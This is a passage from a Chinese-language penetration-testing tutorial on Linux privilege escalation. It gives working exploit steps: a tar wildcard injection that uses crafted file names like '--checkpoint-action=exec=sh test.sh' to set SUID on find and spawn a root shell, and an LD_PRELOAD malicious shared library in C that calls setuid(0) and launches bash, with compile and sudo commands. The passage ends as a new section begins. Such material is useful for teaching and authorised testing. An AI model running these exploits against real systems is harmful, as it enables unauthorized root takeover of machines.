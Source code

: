 为任意的系统二进制文件启用suid，并使用suid进行提权

```shell
echo "chmod u+s /usr/bin/find" > test.sh
echo "" > "--checkpoint-action=exec=sh test.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
ls -al /usr/bin/find
find f1 -exec "whoami" \;
root
find f1 -exec "/bin/sh" \;
id
whoami
```

#### 共享库提权

Linux 程序通常使用动态链接的共享对象库,有多种方法可以指定动态库的位置，因此系统将知道在程序执行时在哪里查找它们。这包括编译程序时的`-rpath`or`-rpath-link`标志，使用环境变量`LD_RUN_PATH`or `LD_LIBRARY_PATH`，将库放置在`/lib`or`/usr/lib`默认目录中，或者在`/etc/ld.so.conf`配置文件中指定包含库的另一个目录。`LD_PRELOAD`环境变量可以在执行二进制文件之前加载库。此库中的函数优先于默认函数。

**提权条件**

所用的命令需要有较高的权限，/etc/sudoers`文件中需要定义`env_keep+=LD_PRELOAD，我们能够编写恶意库文件

**利用**

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

上述脚本命名为shell.c，编译为shell.so的动态文件

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
随后指定LD_PRELOAD执行find命令
sudo  LD_PRELOAD=/tmp/test/shell.so find  //换成自己的路径即可
```

![ld_preload](E:\笔记软件\笔记\渗透测试\技术原理与分析\提权\ld_preload.png)

即可成功提权，但是经过测试，该方法受sudo的限制

#### 共享对象劫持提权(Linux利用动态链接共享对象库提权)

不同于共享库提权的是，针对于新开发的程序和可执行的二进制文件

**操作系统如何寻找共享库**
